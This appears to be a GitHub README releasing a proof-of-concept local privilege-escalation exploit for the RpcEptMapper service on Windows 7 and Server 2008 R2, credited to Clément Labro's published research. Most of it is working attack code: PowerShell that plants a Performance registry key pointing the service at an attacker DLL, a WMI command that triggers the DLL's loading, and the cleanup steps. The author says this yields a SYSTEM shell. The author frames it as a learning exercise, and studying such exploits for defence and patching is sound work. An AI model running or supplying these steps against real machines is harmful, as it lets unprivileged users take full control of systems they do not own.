

# Windows RpcEptMapper Service EoP exploit

Clément Labro ([@itm4n](https://twitter.com/itm4n)) released in November 12, 2020 [all the details](https://itm4n.github.io/windows-registry-rpceptmapper-eop/) for a vulnerability on Windows 7 and Windows Server 2008 R2 that would allow an unprivileged user to escalate to SYSTEM. Based in his thorough description of the problem and also using his [dll template](https://gist.github.com/itm4n/253c5937f9b3408b390d51ac068a4d12#file-dllrpcendpointmapperpoc-cpp) I've coded my own version of the [exploit](https://twitter.com/neosysforensics/status/1327190096060297216), mainly as a learning process.

[Yesterday](https://twitter.com/itm4n/status/1359987926550077440) Clément Labro released a tool to take profit of the vulnerability, [Perfusion](https://github.com/itm4n/Perfusion), and now I think I can release my PoC without being disrespectful.

As indicated in the original blog post, In order to escalate privileges using the resulting DLL the appropriate registry key has to be created:


```
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"
Write-Host "[*] Create 'Performance' subkey"
[void] [Microsoft.Win32.Registry]::LocalMachine.CreateSubKey($ServiceKey)
Write-Host "[*] Create 'Library' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Value "$($pwd)\DllRpcEndpointMapperPoc.dll" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Open' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Value "OpenPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Collect' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Value "CollectPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Close' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Value "ClosePerfData" -PropertyType "String" -Force | Out-Null
```

After that, to trigger the execution of the service execute the PowerShell command included below:

```
Get-WmiObject -List | Where-Object { $_.Name -Like "Win32_Perf*" }
```

If all goes well a SYSTEM shell will be show:

<p style="margin-left: 30px;"></p>

In order to clean the environment or if something was wrong the next commands should be used to delete the registry key previously created:


```
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"
Write-Host "[*] Cleanup"
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Force
[Microsoft.Win32.Registry]::LocalMachine.DeleteSubKey($ServiceKey)
```

As I said, all the kudos to Clément Labro ([@itm4n](https://twitter.com/itm4n)) for his impressive work.

## Useful links

- [Windows RpcEptMapper Service Insecure Registry Permissions EoP](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)
- @itm4n gist: [Windows 7-2008R2 RpcEptMapper Service Insecure Registry Permissions EoP - PoC DLL](https://gist.github.com/itm4n/253c5937f9b3408b390d51ac068a4d12#file-dllrpcendpointmapperpoc-cpp)
- @masthoon gist: [Launch SYSTEM CMD in user current session (from a service)](https://gist.github.com/masthoon/6f81e466d458ff8056d76266b90d2b5e)
- [Retrieving the Last-Error Code](https://docs.microsoft.com/en-us/windows/win32/debug/retrieving-the-last-error-code)
- [CreateProcessAsUser fails with error 5 (Access Denied) when using Jobs](https://www.sysadmins.lv/retired-msft-blogs/alejacma/createprocessasuser-fails-with-error-5-access-denied-when-using-jobs.aspx)
- [Perfusion](https://github.com/itm4n/Perfusion)
- [RpcEptMapper elevation of privilege patch](https://github.com/GossiTheDog/fixes/tree/main/RpcEptMapper)

Happy Hacking!